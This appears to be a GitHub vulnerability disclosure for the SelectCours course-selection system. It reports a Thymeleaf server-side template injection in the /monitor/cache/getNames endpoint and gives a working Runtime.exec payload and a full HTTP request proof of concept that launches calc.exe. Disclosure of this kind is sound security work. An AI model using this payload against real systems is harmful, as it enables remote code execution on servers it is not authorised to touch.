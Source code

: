 # SelectCours-_Sever-side-Template-injection  
There is a serious vulnerability in the SelectCours  system. The Server Side Template Injection vulnerability may lead to sensitive information leakage, code execution, GetShell, and other issues.  
system URL:  
https://gitee.com/rahman/select-cours  
https://github.com/qinghongyou/selectcourse  
From the pom.xml file in the system, it can be found that the system is using a lower version of thymeleaf.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/84aa5890-6904-4678-8c60-292a41a27b8e)  
And found that the return is controllable in the/getNames interface.Therefore, there is a thymeleaf template injection vulnerability in the system.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/a6d346b9-c302-46af-8a0b-f45a9cf03552)  
Find the function point in the front-end page to capture and modify data.  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/3a4fc8e7-85da-4413-864a-3a51b1ff0e21)  
payload:${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}  
POC:
POST /monitor/cache/getNames HTTP/1.1  
Host: 127.0.0.1:8899  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:123.0) Gecko/20100101 Firefox/123.0  
Accept: */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate  
Content-Type: application/x-www-form-urlencoded; charset=UTF-8  
X-Requested-With: XMLHttpRequest  
Content-Length: 67  
Origin: http://127.0.0.1:8899  
Connection: close  
Referer: http://127.0.0.1:8899/monitor/cache  
Cookie: JSESSIONID=244ca31b-26cc-45cc-af03-cbda23de6f29  
Sec-Fetch-Dest: empty  
Sec-Fetch-Mode: cors  
Sec-Fetch-Site: same-origin  

fragment=${T     (java.lang.Runtime).getRuntime().exec("calc.exe")}  


When clicking to send a data packet, malicious code will be executed to start the computer.
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/19ac3c89-80c8-4c80-a44c-8805e346078f)  
![image](https://github.com/Andriesces/SelectCours-_Sever-side-Template-injection/assets/139127885/85e85737-4804-4fe8-93bc-5519968d7524)








